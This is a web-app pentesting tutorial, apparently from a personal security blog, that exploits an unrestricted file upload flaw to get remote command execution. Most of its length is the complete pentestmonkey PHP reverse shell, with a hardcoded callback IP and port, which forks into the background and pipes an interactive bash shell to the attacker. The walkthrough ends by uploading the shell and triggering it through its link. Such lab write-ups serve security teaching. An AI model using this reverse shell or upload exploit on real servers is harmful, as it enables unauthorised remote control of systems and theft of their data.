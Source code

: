 ```yaml
---
title: Unrestricted File Upload
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Unrestricted File Upload]
tags: []  
---
```


# Unrestricted File Upload

# Exploitation

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload1.png)

This webapp is vulnerable to Unrestricted File Upload, which allows attacker to upload file of any format. We will exploit this vulnerablity to get remote command execution.

Let's upload an image file to see how the webapp is behaving.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload2.png)

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload3.png)

As you can see, after uploading the image, we can view it by clicking on the link `here`.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload4.png)

We are going to create malicious php file and upload it to the server, which if executed will provide us with reverse shell.

This is the content of the file.

```php

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.43.1';
$port = 10000;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```
![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload5.png)

We have uploaded our php file on the server. We will get a reverse shell by clicking on the link.

![upload](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/upload6.png)


# References
